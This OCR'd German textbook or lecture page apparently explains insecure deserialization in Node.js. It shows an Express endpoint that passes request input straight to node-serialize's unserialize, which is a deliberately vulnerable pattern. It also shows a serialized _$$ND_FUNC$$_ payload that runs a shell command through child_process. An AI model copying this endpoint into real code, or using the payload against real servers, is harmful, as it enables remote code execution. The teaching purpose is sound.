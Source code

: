 \begin{verbatim}
const express = require('express');
const bodyParser = require('body-parser');
const serialize = require('node-serialize');

const app = express();

app.use(bodyParser.urlencoded({ extended: false }));

app.post("/api/deserialize", function(req, res) {
	var str = ""+req.body.fubar;
	  const todo = serialize.unserialize(str);
	  console.log(todo);
	  res.send("wohoo!");
});

const server = app.listen(3000, function() {
	  console.log("Server started! (Express.js)");

		// Beispiel eines "normalen" serialisierten Objekts
		const normal = {
			todo: "some string"
		};
	  console.log("serialized normal object" + serialize.serialize(normal));
});
\end{verbatim}

Bei diesem Beispiel wird vom Server als Parameter ,,fubar'' ein serialisiertes Objekt als Text entgegen genommen, deserialisiert und ausgegeben. Das erwartete serialisierte Object wird nun über das Kommandozeilentool \textit{curl} an den Server übertragen:

\begin{verbatim}
$ curl -X POST -d "fubar={\"todo\":\"some string\"}" http://localhost:3000/api/deserialize

# Ausgabe am Server:
Server started! (Express.js)
serialized normal object: {"todo":"some string"}
serialized attack code: {"todo":"_$$ND_FUNC$$_function() {\n\t\t\t\trequire('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})\n\t\t\t}"}

{ todo: 'some string' }
\end{verbatim}

In Javascript kann eine Klasse/Objekt auch eine Funktion als Element besitzen. Folgende Klasse inkludiert z.B. unter dem Namen ,,todo'' nicht ein Attribut, sondern eine ausführbare Funktion:

\begin{verbatim}
	 	// Beispiel eines serialisierten Objekts mit einer aufrufbaren Funktion
	  const todo = {
			todo : function() {
				// child_process kann verwendet werden um eine ausführbare Datei aufzurufen
				require('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})
			}
		};
\end{verbatim}

